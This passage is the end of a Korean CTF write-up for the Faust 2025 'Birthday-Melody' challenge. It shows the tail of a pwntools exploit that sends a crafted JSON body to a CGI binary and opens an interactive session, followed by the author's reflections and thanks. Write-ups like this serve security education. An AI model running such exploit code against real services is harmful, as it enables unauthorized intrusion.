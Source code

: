```
            "amplitude": -0x201a1fffff,
            "offset": 0x2
        },
    ],
})

env = {
    "LD_LIBRARY_PATH": "./alpine-libs/usr/lib",
    "REQUEST_METHOD": "POST",
    "QUERY_STRING": "id=-",
    "CONTENT_TYPE": "application/json",
    "CONTENT_LENGTH": str(len(body.encode())),
}

p = process(["/lib/ld-musl-x86_64.so.1", "./genwav.cgi"], env=env)

p.send(body.encode())

p.interactive()
```

저는 성공적으로 이 문제를 풀게되어 정말 기쁘고, 분석하는 과정을 통해 새로운 배움을 얻게 되었습니다.
그리고 방향성을 못잡고 큰 벽 처럼 느껴지는 문제라도, 집요하게 잡고 시간을 들인다면, 결국 무너뜨릴 수 있다는 자신감 또한 얻었습니다.

끝으로, Faust 2025 CTF 에서 출제된 Birthday-Melody 문제의 저의 write-up 을 봐주신 여러분께 진심으로 감사드립니다.